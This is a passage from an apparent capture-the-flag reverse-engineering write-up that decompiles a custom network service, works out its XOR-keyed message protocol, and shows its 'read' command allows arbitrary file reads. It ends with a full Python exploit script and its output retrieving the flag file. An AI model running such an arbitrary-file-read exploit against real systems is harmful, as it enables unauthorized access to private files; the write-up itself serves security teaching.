  memcpy_dest = (char *)malloc(memcpy_size + 1);
  memcpy_dest[memcpy_size] = '\0';
  memcpy(memcpy_dest,obj->payload + (long)memcpy_source_offset + -1,memcpy_size);
  for (inner_idx = 0; inner_idx < (int)(uint)memcpy_size; inner_idx = inner_idx + 1) {
	memcpy_dest[inner_idx] = memcpy_dest[inner_idx] ^ stored_value;
  }
  char_ptr_array[idx] = memcpy_dest;
  at_least_2 = at_least_2 + 1;
  memcpy_source_offset = memcpy_source_offset + memcpy_size + 1;
  idx = idx + 1;
}
```
#### More parsing
To summarize the previous loop, we have seen the parsing of the client message by splitting it into multiple "chunks" based on the message specified size (`memcpy_size` retrieved, and validated, directly from the message) and storing them inside a `char*` array: `char_ptr_array`. Let's continue our journey.

```C
if (at_least_2 < 2) {
  obj->size = 0;
}
else {
  local_154 = 0;
  iVar3 = thunk_FUN_004ef8a0(char_ptr_array[0],&DAT_00568030);
  if (iVar3 == 0) {
	local_154 = 0x40;
  }
  iVar3 = thunk_FUN_004ef8a0(char_ptr_array[0],&DAT_00568035);
  if (iVar3 == 0) {
	local_154 = 0x41;
  }
  iVar3 = thunk_FUN_004ef8a0(char_ptr_array[0],"write");
  if (iVar3 == 0) {
	local_154 = 0x42;
  }
	local_148 = 0;
  if (local_154 == 0x42) {
	uVar5 = may_log(&DAT_005cacc0,"EXEC_WRITE Not implemented");
	jmp_rsi(uVar5,FUN_00476340);
  }
  else if (local_154 < 0x43) {
	if (local_154 == 0x40) {
	  obj->size = 1;
	  cVar2 = FUN_00405355(char_ptr_array[1]);
	  if (cVar2 == '\x01') {
		obj->undefined_3 = 1;
	  }
	  else {
		obj->undefined_3 = 0;
	  }
	}
	else if (local_154 == 0x41) {
	  if (at_least_2 == 3) {
		local_148 = FUN_004ce310(char_ptr_array[2]);
		local_144 = FUN_004053be(&obj->undefined_3,char_ptr_array[1],local_148);
		if (local_144 == 0) {
		  obj->size = 0;
		}
		else {
		  obj->size = (uint16_t)local_144;
		  for (local_150 = 0; local_150 < local_144; local_150 = local_150 + 1) {
			obj->payload[(long)local_150 + -2] =
				 obj->payload[(long)local_150 + -2] ^ stored_value;
		  }
		}
	  }
	  else {
		obj->size = 0;
	  }
	}
  }
```

If `at_least_2` is, *at least* (:}), 2 we have multiple conditional statements on the first retrieved string (at index 0) of `char_ptr_array`. The function `thunk_FUN_004ef8a0` accepts a constant (they all reside inside the `.rodata` section) as the second parameter and the mentioned string as the first. The tree constants are (two of them needs to be converted manually from ghidra into a `string`): stat, read and write. Based on the return value of `iVar3` we are setting `local_154` to `0x40`, `0x41` or `0x42` that are later used inside multiple `if` statements. 

If `local_154` is `0x42`, our previously renamed `may_log` function writes `"EXEC_WRITE Not implemented"` and the same for on `0x40` and `0x41` (like a classic `switch` statement) but with the difference that we do not have the `Not implemented` log message. Following the logic of this log function, we can suppose that `EXEC_WRITE` is the source code representation of a command that can be set from the `thunk_FUN_004ef8a0` call with the `write` as a second parameter (since it sets the variable to `0x42`). We can rename `local_154` to `exec_command`.

If `exec_command` is `0x40` there is a call to `FUN_00405355` that seems to return something similar to a boolean result. If the return result is `0x1`, `obj->undefined4` is set accordingly and the same for `0x0`.

#### stat - `FUN_00405355`
```C
bool FUN_00405355(undefined8 param_1)

{
  int iVar1;
  long in_FS_OFFSET;
  undefined local_a8 [152];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  iVar1 = FUN_00522440(param_1,local_a8);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_check();
  }
  return iVar1 == 0;
}

```

This function is really simple since it just calls one function and returns its value (ignore the `local_10` that is the stack cookie). The called function `FUN_00522440` is the statically linked `stat` function since it clearly calls a syscall with the `EAX` register set to `0x106`(`newfstatat` syscall). The return result of `stat` (and subsequently of `FUN_00405355`) indicates if the file exists or not. We can rename that function to `exec_stat`.

#### read - `FUN_004ce310` & `FUN_004053be`
If the `exec_command` inside `command_0x20` matches `0x41`, the first check is that `at_least_2` is equals to 3 and if it is not we return with `obj->size` set to zero. Otherwise, we call `FUN_004ce310` with `char_ptr_array[2]` as parameter and the result will be the third parameter of `FUN_004053be` (marked as `int` in the function signature from ghidra). That parameter is later used inside the function `FUN_00522080` that is an `lseek` syscall. The second parameter of `lseek` is an `off_t` (`long int`) type, meaning that ghidra "guessed" it pretty correctly.  For that reasons, it seems that from the second index of `char_ptr_array` we are retrieving, in some way, an integer value that we are passing to `FUN_004053be` and using it as an offset to something through `lseek`.

```C
int FUN_004053be(long param_1,undefined8 param_2,int param_3)
{
  int iVar1;
  long lVar2;
  
  iVar1 = FUN_005220d0(param_2,0);
  if (iVar1 == -1) {
    iVar1 = 0;
  }
  else {
    lVar2 = lseek(iVar1,(long)param_3,0);
    if (lVar2 == -1) {
      iVar1 = 0;
    }
    else {
      iVar1 = FUN_005223a0(iVar1,param_1,0xff);
      *(undefined *)(param_1 + iVar1) = 0;
    }
  }
  return iVar1;
}
```

Function `FUN_004053be` is called with `obj->undefined_3` as the first parameter and `char_ptr`array as the second one. 

`FUN_005220d0` is a call to the `openat` syscall, meaning that we are opening the file at `param_2` as read-only. Let's rename it into `filename` and retype to `char*`. If `openat` succeeds, `lseek` is called with the offset specified by `param_3` (renamed to `offset`) on the opened file handle. It then proceeds to call `FUN_005223a0` ("proxy" function to the `read` syscall) with the `param_1` (that is `obj->undefined3`) as the `char* buf` parameter.  That means that inside `obj->undefined3` there is the content of the read file at the specified offset.
This the cleaned code:
```C
int exec_open(long param_1,char *filename,int offset)
{
  int fp;
  long lVar1;
  
  fp = openat(filename,0);
  if (fp == -1) {
    fp = 0;
  }
  else {
    lVar1 = lseek(fp,(long)offset,0);
    if (lVar1 == -1) {
      fp = 0;
    }
    else {
      fp = read(fp,param_1,0xff);
      *(undefined *)(param_1 + fp) = 0;
    }
  }
  return fp;
}
```

The return result is the `read` return value (number of read bytes) and the value, at `command_0x20` function, is stored inside `obj->size`. It follows a `for` loop that XOR each character inside the `obj->payload` with the previously retrieved `stored_value`.  However, we can see a strange array access: `obj->payload[(long)local_150 + -2]`. `local_150`, the `for` loop index initialized with zero,  is used to access `-2` bytes before the array memory location? What a strange behavior.. or, maybe, we have made wrong assumptions before. Maybe the array starts 2 bytes before?

Let's re-think a little bit by re-watching our current struct definition:



`payload[-2]` indicates `undefined_3`. We have set it due to the usage and the retrieval of a specific size in the offset of `calculated_size` and we still didn't know the value of the byte before (=>`undefined_3`) but:
- Arguments (for example to the identified `exec_open` function) are dynamically generated into a local array (`char_ptr_array`) so the payload stores both the size (that is sanitized) and the content.
- `undefined_3` is used as the direct buffer output of the `read` syscall.
- The `for` loop starts the xoring operation two indexes before the current definition (`-2`).

For that reasons, let's try to remove `undefined_3` and `calculated_size` by replacing them with two extra bytes for `payload` instead:



With that change, the code seems far more congruent and readable.

### Chain all pieces
After this intensive Reverse Engineering phase, we have recovered a much more understandable code (that you can find at the end [[#Appendix Cleaned code]]) with ideas on how the program works:
- The client message must contain a well-defined structure with a constant value at the beginning, a command and the size of the entire message.
- The command `0x10` sets a value that can be retrieved from the command `0x20`. This value is later used to XOR the content of the message like a basic encryption mechanism.
- The command `0x20`, after few validation checks, parses an array of arguments dynamically and is able to execute few extra operations: read, write and stat.
- The write operation is not implemented, while the stat is able to identify existing files and the read operation to read arbitrary files.
- The read operation, from the command `0x20`, can be exploited in order to read the flag at `/home/pwnx/flag.txt` (as instructed in the webroot at port 80).

To solve the challenge, it is necessary to initializes a session that returns a xoring key. The retrieved key is used to "encrypt" a further message that contains a read operation to the `/home/pwnx/flag.txt` file.  The final python exploit can be found [here](https://github.com/hacktivesec/nohat24-blog-references/blob/main/re/exploit.py).

## libc signature resolution alternative
An alternative solution to retrieve function signatures for statically linked libc functions is to use something like [IDA FLIRT](https://docs.hex-rays.com/user-guide/signatures/flirt) or its [Ghidra ApplySig](https://github.com/NWMonster/ApplySig) alternative. This approach is well explained from Liveoverflow in the following video: [Reversing Statically-Linked Binaries with Function Signatures](https://www.youtube.com/watch?v=CgGha_zLqlo).
## Conclusion
Hope you have enjoyed this RE journey. In the next blog post we are going to release the write-up for the binary exploitation challenge too that involves a custom allocator specifically written for that challenge! Stay tuned and happy hacking!

## Appendix
### The cleaned code
```C
void parse_client_message(int socket)

{
  long lVar1;
  char res;
  int bytes_received;
  undefined8 uVar2;
  long in_FS_OFFSET;
  struct custom_message undefined_obj;
  char buffer [264];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  thunk_FUN_004ef5e0(buffer,0,0x108);
  bytes_received = recvfrom(socket,buffer,0x108,0);
  if (bytes_received < 0) {
    uVar2 = may_log(&DAT_005caba0,"Error reading from socket");
    jmp_rsi(uVar2,FUN_00476340);
    close(socket);
  }
  else {
    init_obj(&undefined_obj);
    res = copy_from_buffer(&undefined_obj,buffer,(long)bytes_received);
    if (res == '\x01') {
      FUN_00406018(&undefined_obj);
      if (undefined_obj.command == 0x10) {
        command_0x10(&undefined_obj);
      }
      else if (undefined_obj.command == 0x20) {
        command_0x20(&undefined_obj);
      }
      else {
        undefined_obj.size = 0;
      }
      sendto(socket,&undefined_obj,(ulong)undefined_obj.size + 8,0);
    }
    else {
      uVar2 = may_log(&DAT_005caba0,"Invalid message received");
      jmp_rsi(uVar2,FUN_00476340);
    }
  }
  if (lVar1 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_check();
  }
  return;
}

void command_0x10(struct custom_message *obj)

{
  int iVar1;
  ushort *puVar2;
  byte bVar3;
  long in_FS_OFFSET;
  ushort obj_undefined;
  long stack_cookie;
  
  stack_cookie = *(long *)(in_FS_OFFSET + 0x28);
  obj_undefined = *(ushort *)obj->xor_key_derivate;
  if ((obj_undefined < 0x100) || (0x900 < obj_undefined)) {
    obj->size = 0;
  }
  else {
    iVar1 = return_something();
    bVar3 = (char)iVar1 + (char)(iVar1 / 0x3f) * -0x3f;
    puVar2 = (ushort *)store_and_get(&DAT_005c9d80,&obj_undefined);
    *puVar2 = (ushort)bVar3;
    obj->size = 2;
    obj->payload[0] = 0x1;
    obj->payload[1] = bVar3;
  }
  if (stack_cookie != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_check();
  }
  return;
}


void command_0x20(struct custom_message *obj)

{
  long lVar1;
  byte stored_value;
  char cVar2;
  int iVar3;
  undefined2 *puVar4;
  undefined8 uVar5;
  long in_FS_OFFSET;
  undefined2 local_168;
  ushort memcpy_size;
  int memcpy_source_offset;
  int at_least_2;
  int idx;
  int inner_idx;
  int exec_command;
  int local_150;
  undefined4 local_14c;
  undefined4 local_148;
  int n_bytes;
  char *memcpy_dest;
  char *char_ptr_array [16];
  
  lVar1 = *(long *)(in_FS_OFFSET + 0x28);
  local_168 = *(undefined2 *)obj->xor_key_derivate;
  puVar4 = (undefined2 *)store_and_get(&DAT_005c9d80,&local_168);
  stored_value = (byte)*puVar4;
  if (stored_value == 0) {
    obj->size = 0;
  }
  else {
    local_14c = 3;
    char_ptr_array[0] = (char *)0x0;
    char_ptr_array[1] = (char *)0x0;
    char_ptr_array[2] = (char *)0x0;
    memcpy_size = 0;
    memcpy_source_offset = 0;
    memcpy_dest = (char *)0x0;
    at_least_2 = 0;
    idx = 0;
    while ((((idx < 3 &&
             (memcpy_size = (ushort)obj->payload[memcpy_source_offset],
             (int)(uint)memcpy_size <= 0xff - memcpy_source_offset)) && (memcpy_size < obj->size))
           && (memcpy_size != 0))) {
      memcpy_dest = (char *)malloc(memcpy_size + 1);
      memcpy_dest[memcpy_size] = '\0';
      memcpy(memcpy_dest,obj->payload + (long)memcpy_source_offset + 1,memcpy_size);
      for (inner_idx = 0; inner_idx < (int)(uint)memcpy_size; inner_idx = inner_idx + 1) {
        memcpy_dest[inner_idx] = memcpy_dest[inner_idx] ^ stored_value;
      }
      char_ptr_array[idx] = memcpy_dest;
      at_least_2 = at_least_2 + 1;
      memcpy_source_offset = memcpy_source_offset + memcpy_size + 1;
      idx = idx + 1;
    }
    if (at_least_2 < 2) {
      obj->size = 0;
    }
    else {
      exec_command = 0;
      iVar3 = what_is_this(char_ptr_array[0],"stat");
      if (iVar3 == 0) {
        exec_command = 0x40;
      }
      iVar3 = what_is_this(char_ptr_array[0],"read");
      if (iVar3 == 0) {
        exec_command = 0x41;
      }
      iVar3 = what_is_this(char_ptr_array[0],"write");
      if (iVar3 == 0) {
        exec_command = 0x42;
      }
      local_148 = 0;
      if (exec_command == 0x42) {
        uVar5 = may_log(&DAT_005cacc0,"EXEC_WRITE Not implemented");
        jmp_rsi(uVar5,FUN_00476340);
      }
      else if (exec_command < 0x43) {
        if (exec_command == 0x40) {
          obj->size = 1;
          cVar2 = exec_stat(char_ptr_array[1]);
          if (cVar2 == 0x1) {
            obj->payload[0] = '\x01';
          }
          else {
            obj->payload[0] = '\0';
          }
        }
        else if (exec_command == 0x41) {
          if (at_least_2 == 3) {
            local_148 = FUN_004ce310(char_ptr_array[2]);
            n_bytes = exec_open(obj->payload,char_ptr_array[1],local_148);
            if (n_bytes == 0) {
              obj->size = 0;
            }
            else {
              obj->size = (uint16_t)n_bytes;
              for (local_150 = 0; local_150 < n_bytes; local_150 = local_150 + 1) {
                obj->payload[local_150] = obj->payload[local_150] ^ stored_value;
              }
            }
          }
          else {
            obj->size = 0;
          }
        }
      }
    }
  }
  if (lVar1 == *(long *)(in_FS_OFFSET + 0x28)) {
    return;
  }
                    /* WARNING: Subroutine does not return */
  __stack_check();
}


bool exec_stat(undefined8 param_1)

{
  int ret;
  long in_FS_OFFSET;
  undefined local_a8 [152];
  long local_10;
  
  local_10 = *(long *)(in_FS_OFFSET + 0x28);
  ret = stat(param_1,local_a8);
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_check();
  }
  return ret == 0;
}

int exec_open(long param_1,char *filename,int offset)

{
  int fp;
  long lVar1;
  
  fp = openat(filename,0);
  if (fp == -1) {
    fp = 0;
  }
  else {
    lVar1 = lseek(fp,(long)offset,0);
    if (lVar1 == -1) {
      fp = 0;
    }
    else {
      fp = read(fp,param_1,0xff);
      *(undefined *)(param_1 + fp) = 0;
    }
  }
  return fp;
}
```

### Exploit
```python
from struct import *
import socket
import sys
import hashlib
from termcolor import colored

def print_info(str):
    print(colored("[*] " + str,"cyan"))
def print_ok(str):
    print(colored("[+] "+ str,"green"))
def print_error(str):
    print(colored("[-] "+ str,"red"))
def print_warning(str):
    print(colored("[!!] " + str,"yellow"))

char = "x"
signed_char = s_char = "b"
unsigned_char = u_char = "B"
_Bool = _bool = "?"
short_int = s_int = "h"
unsigned_short_int = u_s_int = "H"
_int = "i"
unsigned_int = u_int = "I"
long_int = l_int = "l"
unsigned_long_int = u_l_int = "L"
long_long_int = l_l_int = "q"
unsigned_long_long_int = u_l_l_int = "Q"
_float = "f"
_double = "d"
char_array = "s"
void = "P"

def get_byte(num):
    return pack("<B", num)

def get_word(num):
    return pack("<H", num)

def get_dword(num):
    return pack("<L", num)

def get_qword(num):
    return pack("<Q", num)

def eazy_unpack(format_list, data):
    # THe first one must be little/big endian ot newtork or what else
    # Give back struct format from a list
    form = ""
    print("[eazy_struct] size of data: " + str(len(data)))
    for ff in format_list:
        form += ff 
    
    try:
        res = unpack(form, data)
        return list(res)
    except Exception as ez:
        print("Exception generated: " + str(ez))
        return -1

class Packet():
    def __init__(self):
        self.header = Header()
    def get(self):
        # Get the packet in bytes to send
        final_packet = bytearray()
        # Put the header inside the packet
        for item in vars(self.header):
            item_value = getattr(self.header, item)
            if item_value is None:
                print_warning("[Packet.get] Item " + item + " is None")
                return -1
            final_packet += item_value
        # Put the body inside the packet
        """"
        for item in vars(self.body):
            item_value = getattr(self.body, item)
            if item_value is None:
                print_warning("[Packet.get] Item " + item + " is None")
                return -1
            final_packet += item_value
        """
        return final_packet

# Define packet structure below
class Header:
    def __init__(self):
        self.magic_value = None
        self.session_id = None
        self.command = None
        self.unused = None
        self.body_size = None
        self.body_args = None

def send_packet_hello(sock):
    p = Packet()

    p.header.magic_value    = get_word(0xff66)
    p.header.session_id     = get_word(0x101)
    p.header.command        = get_byte(0x10)
    p.header.unused         = get_byte(0x44)
    p.header.body_size      = get_word(200)
    p.header.body_args      = bytearray([0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41, 0x41])
    
    packet = p.get()

    ff = open("/tmp/req1","wb")
    ff.write(packet)
    ff.close()

    print("[*] Sending ..")
    sock.send(packet)
    print("[*] Receiving ..")
    res = sock.recv(0x100)

    ff = open("/tmp/res1","wb")
    ff.write(res)
    ff.close()
    
    # retrieve the encryption key
    enc_key = res[9]
    return enc_key

def encrypt_string(string, enc_key):
    xor_result = ''.join(chr(ord(char) ^ enc_key) for char in string)
    return xor_result

def decrypt_string(string_bytes, enc_key):
    res = ""
    for v_byte in string_bytes:
        res += chr(v_byte ^ enc_key)

    return res

def send_packet_exec(sock, enc_key):
    p = Packet()

    p.header.magic_value    = get_word(0xff66)
    p.header.session_id     = get_word(0x101)
    p.header.command        = get_byte(0x20)
    p.header.unused         = get_byte(0x01)

    # Create the encrypted arguments body
    pp                      = "read"
    payload                 = chr(len(pp))
    payload                 += encrypt_string(pp, enc_key)

    pp                      = "/home/pwnx/flag.txt"
    payload                 += chr(len(pp))
    payload                 += encrypt_string(pp, enc_key)

    pp                      = "0"
    payload                 += chr(len(pp))
    payload                 += encrypt_string(pp, enc_key)

    encrypted_body          = bytearray(payload.encode("utf-8"))
    p.header.body_size      = get_word(len(encrypted_body))
    p.header.body_args      = encrypted_body
    
    packet = p.get()

    ff = open("/tmp/req2","wb")
    ff.write(packet)
    ff.close()

    sock.send(packet)
    res = sock.recv(0x100)
    file_content = decrypt_string(res[8:], enc_key)
    print("[*] File content: " + file_content)

    ff = open("/tmp/res2","wb")
    ff.write(res)
    ff.close()

if __name__ == "__main__":
    if len(sys.argv) < 2:
        print_error("Needed parameters")
        sys.exit()

    target = sys.argv[1]
    port = int(sys.argv[2])

    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((target,port))

    enc_key = send_packet_hello(sock)
    print("[+] Encryption key found: " + hex(enc_key))
    # reconnect
    sock.close()
    sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    sock.connect((target,port))
    send_packet_exec(sock, enc_key)

```

Result:
```bash
$ python3 exploit.py <ip> <port>
[*] Sending ..
[*] Receiving ..
[+] Encryption key found: 0x2e
[*] File content: PWNX{67ef535c2d1a5eea75b21091bd5d2e18eedf9f5c5abd61aa73b0110522666ab3}
```